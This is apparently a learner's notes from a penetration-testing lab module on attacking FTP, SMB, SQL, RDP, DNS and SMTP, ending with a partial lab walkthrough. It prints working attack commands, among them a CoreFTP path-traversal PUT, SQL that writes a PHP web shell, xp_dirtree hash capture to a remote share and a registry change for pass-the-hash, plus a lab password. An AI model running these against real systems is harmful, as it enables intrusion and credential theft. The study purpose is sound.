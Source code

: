 # Attacking Common Services

## FTP

Ways to attack are:

* Anonymous login
* Hydra Brute forcing

&#x20;[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836) CoreFTP before build 727 does not properly authenticate put requests &#x20;

```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

## SMB

Ways to attack are:

* Null authentication can test this with smbmap&#x20;
* Bruteforc with crackmapexec --local-auth flag is needed
* Psexec can be used to rum comands once we have cred
* PTH - Can use --sam flag and then PtH&#x20;
* Responder to captcher hashes

It is very important to use the --local-auth flag.

## SQL

```shell-session
select LOAD_FILE("/etc/passwd");
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

```cmd-session
xp_cmdshell 'whoami'
EXEC master..xp_dirtree '\\10.10.110.17\share\'
Responder hash stealing!
```

Ok so some stuff: Mysql I have a relatively good grasp on. MSSql not so much.

It is worth while to note that to connect with a responder hash you need to auth as the windows user not as the sql user like this;

```
sqsh -U 10.129.16.49\\mssqlsvc -P 'princess1' -S 10.129.16.49 -h
```

## RDP

We covered all this already in the password attacks section

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## DNS

```shell-session
fierce --domain zonetransfer.me
```

DNS spoofing is possible with ettercap

Zone transfer like this

```shell-session
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

```
echo "ns1.inlanefreight.htb" > ./resolvers.txt
./subbrute.py inlanefreight.htb -s ./names.txt -r ./resolvers.txt
dig AXFR @<IP> hr.inlanefreight.htb
```

This challenge really sucked

## SMTP

```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Hydra to brute force pop3&#x20;

telnet to connect to mail service. Lookup smtp commands

## Assesment

### Easy

10.129.132.35

The first place to start enumrating users is smtp. Lets use the smtp-user-eum script. And we get fiona!&#x20;

Now let's try crack ftp as that is usually quite fast to bruteforce we get it! 987654321

Now we can log in to mysql and insert a shell pn the web server to gain RCE and we get the flag!

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/xampp/htdocs/dashboard/shell.php';
```

### Medium
